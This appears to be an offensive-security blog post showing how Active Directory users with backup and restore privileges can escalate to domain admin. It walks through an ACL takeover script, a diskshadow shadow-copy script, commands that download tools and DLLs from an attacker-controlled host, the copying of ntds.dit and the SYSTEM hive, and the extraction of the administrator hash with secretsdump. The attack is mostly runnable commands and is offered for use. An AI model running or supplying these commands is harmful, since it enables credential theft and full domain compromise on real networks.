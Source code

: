 [back](/)

![Image](/img/sebackup_and_serestore/homer.jpg)

### Glad to see you domain admin

What can domain users with "SeBackupPrivilege" and "SeRestorePrivilege" privileges do?

![Image](/img/sebackup_and_serestore/1.png)

![Image](/img/sebackup_and_serestore/2.png)

Such user can easily get the domain administrator access. Firstly, using these privileges, you can assign an ACL with the "FullControl" flag to any directory and any file in the system (does not apply to encrypted files by EFS), this means "full rights" to read and write.

```
Import-Module ./Acl-FullControl.ps1
Acl-FullControl -user FQDN\domainuser -path c:\users\administrator - get access to any path
```

However, the juiciest files SAM, SYSTEM, SECURITY and NTDS.DIT will remain inaccessible (despite what works "reg save HKLM...), even with full rights due to constant use. But using the diskshadow utility (functionality provided by the Volume Shadow Copy Service) will help you create a shadow copy of the local disk with ntds.dit, and further mimicking the backup program using WIN32 API calls will help move ndts.dit to your local drive. 

```
shad.txt: - do not forget to add spaces =)
_________

set context clientaccessible   
set context persistent   
begin backup   
add volume c: alias mydrive  
create  
expose %mydrive% z:  
_________

powershell.exe Invoke-WebRequest "http://yourip/shad.txt -OutFile ./shad.txt"
diskshadow.exe /s C:\temp\ntdscopy\shad.txt
```

![Image](/img/sebackup_and_serestore/5.png)

than

```
powershell.exe Invoke-WebRequest "http://yourip/SeBackupPrivilegeCmdLets.dll -OutFile ./SeBackupPrivilegeCmdLets.dll"
powershell.exe Invoke-WebRequest "http://yourip/SeBackupPrivilegeUtils.dll -OutFile ./SeBackupPrivilegeUtils.dll"

Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
Set-SeBackupPrivilege

Copy-FileSeBackupPrivilege z:\windows\NTDS\ntds.dit c:\tmp\ntds.dit - now u got ntds.git copy =)

reg save HKLM\system system.save
```

Then "secretsdump" will help you get the hash of the domain administrator from ntds.dit without much difficulty =)Then "secretsdump" will help you get the hash of the domain administrator from ntds.dit without much difficulty =)

```
python secretsdump.py -ntds /tmp/ntds.dit -system /tmp/system.save LOCAL
```

Glad to see you domain admin =)

Everything you need is here:

[Abusing-backup-operators-group](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#abusing-backup-operators-group)
[Acl-FullControl.ps1](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1)
[SeBackupPrivilegeCmdLets](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug)

<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)
